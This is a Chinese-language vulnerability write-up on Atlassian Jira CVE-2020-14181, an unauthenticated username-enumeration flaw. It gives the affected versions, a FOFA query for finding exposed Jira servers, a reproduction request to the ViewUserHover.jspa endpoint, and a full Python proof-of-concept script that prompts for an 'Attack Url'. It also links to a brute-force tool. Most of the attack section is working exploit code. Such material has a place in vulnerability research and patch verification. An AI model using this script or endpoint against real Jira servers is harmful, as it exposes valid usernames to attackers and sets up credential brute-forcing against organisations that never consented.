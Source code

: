# Atlassian-Jira-信息泄露漏洞-CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

> [!NOTE]
>
> Atlassian Jira < 7.13.6
>
> Atlassian Jira 8.0.0 - 8.5.7
>
> Atlassian Jira 8.6.0 - 8.12.0

## FOFA

> [!NOTE]
>
> app="Jira"

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中

![](Atlassian-Jira-信息泄露漏洞-CVE-2020-14181.assets/16273631571951418.jpg)

使用POC对用户名是否存在进行验证

http://xxx.xxx.xxx.xxx/secure/ViewUserHover.jspa?username=admin

用户名如果不存在会返回

![](Atlassian-Jira-信息泄露漏洞-CVE-2020-14181.assets/1627363157339783.jpg)

存在的用户名会返回

![](Atlassian-Jira-信息泄露漏洞-CVE-2020-14181.assets/1627363157466971.jpg)

不存在漏洞会返回

![](Atlassian-Jira-信息泄露漏洞-CVE-2020-14181.assets/1627363157614336.jpg)



## 漏洞利用POC

> [!NOTE]
>
> POC只用于探测是否存在漏洞
>
> 爆破可使用:  https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Atlassian Jira < 7.13.6                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7                              \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
        print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
        if "peiqipeiqipeiqi" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](Atlassian-Jira-信息泄露漏洞-CVE-2020-14181.assets/1627363157916687.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Atlassian_Jira_user_information_disclosure

![](Atlassian-Jira-信息泄露漏洞-CVE-2020-14181.assets/16273631582741172.jpg)